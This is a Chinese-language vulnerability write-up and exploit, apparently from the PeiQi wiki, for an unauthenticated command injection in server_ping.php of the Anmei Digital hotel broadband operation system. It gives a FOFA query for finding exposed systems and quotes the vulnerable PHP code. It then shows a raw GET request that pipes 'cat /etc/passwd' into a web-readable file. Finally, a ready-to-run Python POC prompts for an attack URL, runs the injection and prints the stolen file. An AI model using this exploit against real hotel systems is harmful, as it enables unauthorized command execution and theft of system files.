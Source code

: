 # 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞

## 漏洞描述

安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行

## 漏洞影响

> [!NOTE]
>
> 安美数字 酒店宽带运营系统

## FOFA

> [!NOTE]
>
> "酒店宽带运营"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/am-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在漏洞的文件为 **server_ping.php**

```php
<?
if (!isset($ip) || $ip == "" || !isset($id) || $id == "") exit;

$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
$getString = "";
if ($fp) {
	while (($line = fgets($fp, 512))) {
		$getString .= trim($line);
	}
	pclose($fp);
	
}

if (strstr($getString, "2 received, 0%")) {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'ok');\n";
	echo "</script></body></html>\n";
} else {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'no');\n";
	echo "</script></body></html>\n";
}
?>
```

漏洞位置为

```
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
```

GET传入 **$ip参数** 后直接命令执行，并且文件无权限要求

请求包为

```
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../pq.txt&id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
```

![](http://wikioss.peiqi.tech/vuln/am-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../pq.txt&id=1"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd>../../pq.txt \033[0m".format(target_url))
        if "parent" in response.text and response.status_code == 200:
            vuln_url = target_url + "/pq.txt"
            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
            }
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
            if "root:" in response.text:
                print("\033[36m[o] 成功执行 cat /etc/passwd, 响应为:\n{} \033[0m".format(response.text))
            else:
                print("\033[31m[x] 请求失败:{} \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

#
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/am-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)